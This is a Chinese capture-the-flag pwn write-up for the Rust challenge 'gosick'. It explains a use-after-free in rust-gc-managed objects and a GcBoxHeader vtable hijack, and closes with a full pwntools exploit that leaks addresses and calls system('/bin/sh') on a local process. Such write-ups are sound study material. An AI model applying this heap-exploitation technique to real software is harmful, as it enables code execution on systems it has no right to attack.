# gosick

## 题目简述

题目是 Rust 程序，核心对象是由 `rust-gc` 管理的 `Chaos` 结构体，并且题目重写了它的 `Trace` 行为。`rust-gc` 使用 mark-and-sweep：不可达对象在 sweep 阶段会被释放，但程序仍保留对 `Chaos.content` 的引用，从而形成 UAF。程序还提供 `Login` 和 `Gift` 功能，`Login` 会创建带 `uid` 的 `Token`，`Gift` 会检查 `uid == 0`，但更完整的预期解是利用 `GcBoxHeader` 的 vtable 指针控制调用流，把 `/bin/sh` 作为参数传入 `system`。

官方题解提到这题设计参考了 [Defcamp 相关题目](https://www.kn0sky.com/?p=d400e21d-6a46-4fa0-bce8-81a5a7328c83)。

## 解题过程

程序对 `Chaos` 做增删改查，并实现了自定义 Trace Trait。



`rust-gc` 在标记阶段递归遍历对象图，未标记对象会在 sweep 阶段释放。由于 `Chaos` 仍然保存着已释放 content 的引用，后续 `show`、`edit` 可以继续作用在释放后的区域。



通过 create 和多次 show 可以稳定触发 UAF：



`Gift` 功能会检查登录态中的 `uid`：



调试符号未剥离，可以直接看到 `Token` 结构体。一个简单利用方向是让 `Login` 创建的 `Token` 复用已释放的 `content` 区域，从而改写 `uid`。



但是 `rust-gc` 管理的对象前面还有 `GcBoxHeader`，里面包含 GC 元数据和 vtable。利用目标可以进一步升级为伪造 header/vtable，让 GC trace 相关调用把下一个 `GcBox` 字段地址作为 `rdi` 传入目标函数。



编译后的布局和整体利用思路如下：





先创建一个 content 长度为 `0x38` 的 `Chaos`，触发 sweep 后再 `Login`，让 `Token` 或伪造对象占据释放区域。



只改 `uid = 0` 可以利用 `Gift` 过滤不严直接拿到结果，但更完整的路线是伪造 `GcBoxHeader`，让 `trace_inner` 间接调用 `system("/bin/sh")`。









核心利用脚本逻辑如下：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
p = process("./gosick")

def add(index, content):
    p.sendlineafter("6.Exit", "1")
    p.sendlineafter("Index:", str(index))
    p.sendlineafter("Content:", content)

def show(index):
    p.sendlineafter("6.Exit", "3")
    p.sendlineafter("Index:", str(index))

def login(name):
    p.sendlineafter("6.Exit", "5")
    p.sendlineafter("Name:", name)

def edit(index, size, content):
    p.sendlineafter("6.Exit", "2")
    p.sendlineafter("Index:", str(index))
    p.sendlineafter("Size", str(size))
    p.sendafter("Content:", content)

p.sendlineafter("Tell me your name", "summ2")
add(0, "aaaaaaaa" * 6 + "aaaaaaab")
add(9, "a" * 32 + "/bin/sh")
edit(9, 0x28, p64(0) * 4 + b"/bin/sh\x00\n")

for _ in range(6):
    show(9)

login("summ2")
show(0)

p.recvuntil("\x74\x3a\x20", drop=True)
header_next = u64(p.recv(8))
heap_base = header_next - 0x2f90
header_vtable = u64(p.recv(8))
elf_base = header_vtable - 0xbaea0

fake = (
    p64(heap_base + 0x2f80)
    + p64(heap_base + 0x2e70)
    + p64(8)
    + p64(0) * 3
    + p64(elf_base + 0x2dab0)
)
edit(0, 0x38, fake)
show(0)
p.interactive()
```

## 方法总结

- 核心技巧：利用 `rust-gc` 对象释放后的悬挂引用形成 UAF，再通过 `GcBoxHeader`/vtable 劫持控制流。
- 识别信号：Rust 程序出现 GC/Trace 自定义实现、对象释放后仍能 show/edit，应重点检查 GC 元数据和对象头布局。
- 复用要点：Rust 并不等于没有内存漏洞；一旦引入 unsafe、FFI 或第三方 GC，仍然可以出现传统 UAF 和 vtable 劫持。
